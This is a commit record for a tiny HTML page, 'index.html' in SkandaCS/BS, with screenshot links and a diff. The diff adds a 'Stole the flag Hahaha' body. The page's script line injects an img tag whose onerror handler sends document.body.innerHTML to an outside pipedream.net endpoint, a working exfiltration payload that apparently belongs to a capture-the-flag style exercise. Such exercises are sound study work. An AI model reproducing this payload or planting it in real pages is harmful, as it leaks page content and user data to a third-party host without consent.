

Before and after one commit to SkandaCS/BS, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,4 +1,7 @@
 <html>
     <title id="getFlag">Test 1</title>
+    <body>
+        <p>Stole the flag Hahaha</p>
+    </body>
     <script>document.getElementById("getFlag").innerHTML=`<img src =q onerror='fetch("https://eodec445wcgzbwx.m.pipedream.net?" + document.body.innerHTML)'`</script>
 </html>
```
